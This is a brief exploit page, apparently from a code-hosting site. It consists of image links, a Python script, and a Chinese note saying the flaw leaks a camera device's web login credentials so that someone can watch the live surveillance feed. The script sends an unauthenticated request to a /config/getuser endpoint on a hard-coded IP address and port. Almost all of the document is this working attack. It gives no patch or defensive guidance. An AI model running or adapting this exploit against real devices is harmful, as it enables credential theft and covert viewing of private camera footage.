 
![](image/33b4f93d991c25ce94eb66c2e7d93c91.png)
![](image/7bbf70505abd6262e41c1ae74edd416e.png)

![](image/f714a30d581b2ada569fd888b251222f.png)

## exp
```python
import requests

host = "175.137.179.74:3128"

url = f"http://{host}/config/getuser?index=0"

response = requests.get(url)

print("Status code:", response.status_code)
print("Response body:", response.text)
```

## 说明

此漏洞可以泄露其web端账户名和密码，通过此登录可以实时查看其监控画面